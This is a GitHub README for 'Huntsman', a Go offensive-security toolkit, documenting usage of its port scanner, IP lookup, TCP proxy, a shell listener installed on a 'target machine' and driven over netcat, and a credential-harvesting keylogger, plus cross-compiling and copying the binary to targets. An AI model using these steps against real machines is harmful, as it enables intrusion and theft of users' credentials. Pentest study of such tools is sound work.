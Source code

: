 # Huntsman
A swiss army knife for all things security.
https://souvikhaldar.github.io/huntsman/

# Complete guide
[1.Installation](https://github.com/souvikhaldar/huntsman#installation)   
[2.Reverse shell](https://github.com/souvikhaldar/huntsman#reverse-shell)  
[3.Concurrent port scanning](https://github.com/souvikhaldar/huntsman#fast-concurrent-port-scanning)    
[4.IP location details](https://github.com/souvikhaldar/huntsman#location-details-of-ip-or-tcpdump)  
[5.TCP proxy](https://github.com/souvikhaldar/huntsman#run-a-tcp-proxy)   
[6.TCP Listener](https://github.com/souvikhaldar/huntsman#run-a-tcp-listener)   
[7.Keylogger](https://github.com/souvikhaldar/huntsman/blob/master/README.md#keylogger)



# Path
- [x] Port scanner    
- [x] IP information  
- [x] TCP proxy    
- [x] TCP listener  
- [x] HTTP server  
- [x] Reverse Shell listener  
- [x] Keylogger  
- [ ] Exploiting DNS  
- [ ] VirusTotal API functionality  
- [ ] SMB and NTLM expotation  
- [ ] Abusing Databases  
- [ ] Packet processing  
- [ ] Fuzzing and shellcode  
- [ ] Cryptography  
- [ ] Windows system analysis  
- [ ] steganography  
- [ ] CNC RAT  

# Inspiration
The inspiration of this tool are primarily the following two sources:
1. Pursuing [Advanced Exercutive Program in Cyber Security and Cyber Defense](https://talentsprint.com/pages/wip/iit-kanpur/v2.5/index.html) at the esteemed [c3i](https://security.cse.iitk.ac.in/) institution of [IIT Kanpur](https://www.iitk.ac.in/) and Professor [Sandeep Shukla](https://www.cse.iitk.ac.in/users/sandeeps/).  
2. The excellent book [Black Hat Go: Go Programming For Hackers and Pentesters](https://www.amazon.in/Black-Hat-Go-Programming-Pentesters-ebook/dp/B073NPY29N) by Tom Steele, Chris Patten and Dan Kottmann. 


# Complete Guide
		
# Installation
There multiple ways in which you can install `huntsman` on your machine or a target machine.  
1. Install it using golang compiler using `go install` or `go build`
	
	1. [Install Golang](https://golang.org/doc/install)    
	2. `git clone git@github.com:souvikhaldar/huntsman.git`
	3. `cd huntsman`  
	4. `go install`  
2. Download and copy the binary from `/download` directory on $PATH.  
3. Use the `goinstaller.py` script.  
	```
	./goinstaller.py --help 
	Install go program for multiple OS and multiple architectures
	Run goinstaller.py --help for all options
	usage: goinstaller.py [-h]
			      [--os {all,popular,linux,darwin,windows,dragonfly,android,freebsd,netbsd,openbsd,plan9,solaris,aixjs}]
			      [--arch {all,popular,amd64,386,arm,ppc64,arm64,ppc64le,mips,mipsle,mips64,mips64le,s390x}]
			      [--source SOURCE] [--target TARGET]

	optional arguments:
	  -h, --help            show this help message and exit
	  --os {all,popular,linux,darwin,windows,dragonfly,android,freebsd,netbsd,openbsd,plan9,solaris,aixjs}
				The target OS. Eg. all,linux,darwin,windows,etc
	  --arch {all,popular,amd64,386,arm,ppc64,arm64,ppc64le,mips,mipsle,mips64,mips64le,s390x}
				The target's architecture. Eg. all,amd64,386,etc
	  --source SOURCE       The directory where source source is present
	  --target TARGET       The target dir where the binary needs to be stored
	```
	Eg. Compiling for **popular** OSes like Windows, Microsoft and Linux for 64-bit architecture can be done using
	`./goinstaller.py --target ./download --os popular --arch amd64`

# Transfer to a target
Once you've compiled huntsman for the target OS and arch, you can transfer it 
using `scp` or any tool of choice:  
Eg, transfering linux binary to target machine:  
`scp ./download/linux_amd64 username@address:location`

# Fast concurrent port scanning  
``` 
huntsman portScan --help
Concurrently scan the provided range (by default 0 to 65535) to check if any port is open

Usage:
  huntsman portScan [flags]

Flags:
  -e, --end int32       last port number (default 65535)
  -h, --help            help for portScan
  -s, --start int32     starting port number (default 1)
      --target string   IP/URL address of the machine to be scanned
  -t, --threads int32   the number of goroutines to execute at a time (default 100)
```

Example:  
`huntsman portScan --target abc.com`  

# Location details of IP or tcpdump  

`huntsman ipinfo --ip=12.121.212.32`  

[![asciicast](https://asciinema.org/a/342086.svg)](https://asciinema.org/a/342086)

  	Providing tcpdump log:   

        Parsing location info from log file of `tcpdump`


       ```
       huntsman iploc --tcp-dump server.log
       Request came from:  fwdproxy-frc-003.fbsv.net
       Details of the requester:  {"status":"success","country":"United States","countryCode":"US","region":"NJ","regionName":"New Jersey","city":"Newark","zip":"07175","lat":40.7357,"lon":-74.1724,"timezone":"America/New_York","isp":"Facebook, Inc.","org":"Facebook, Inc.","as":"AS32934 Facebook, Inc.","query":"173.252.127.3"}. 
       ```
  

       P.S- The log file was populated by:  
       ```
       tcpdump -s 0 -A 'tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x47455420' > server.log
       ```
        
        The above command was run on the server where HTTP service was running on port 80.

# Run a TCP proxy

`huntsman proxy -s <local-port> -t <target-address> -p <target-port>`   

# Run a TCP listener

`huntsman listen --port=<port>`


# Reverse shell
First you need to compile the binary for the target machine using the 
`goinstaller.py` or anything of choice. Then preferably use `scp` to transfer
the binary to the target machine (see `Installation` section) then execute it
using `./<binary-name> reverseshell --port <port-number>`. Now the listener is
running to which you will be sending instructions to execute.   

We will be using [netcat](http://netcat.sourceforge.net/) as the client for 
sending the commands over the network.  
`nc <address-of-target> <port-number>`  
[Youtube link for the video demonstration](https://youtu.be/eE0k0GVZXyc)

# Keylogger 
A keylogger can log the keystrokes made by a user ,typically on a website. The logged keystrokes most of the times are crucial credentials of the users. Hackers use Credential Harvester (like keylogger) to steal your credentials.
Huntsman is the tool that contains a keylogger as well.    
Eg. `huntsman keylogger -w localhost:8192 -l 8192`   

This video is the demonstration for using huntsman as a keylogger. [Link to youtube video](https://youtu.be/BoPICq1MVhA)



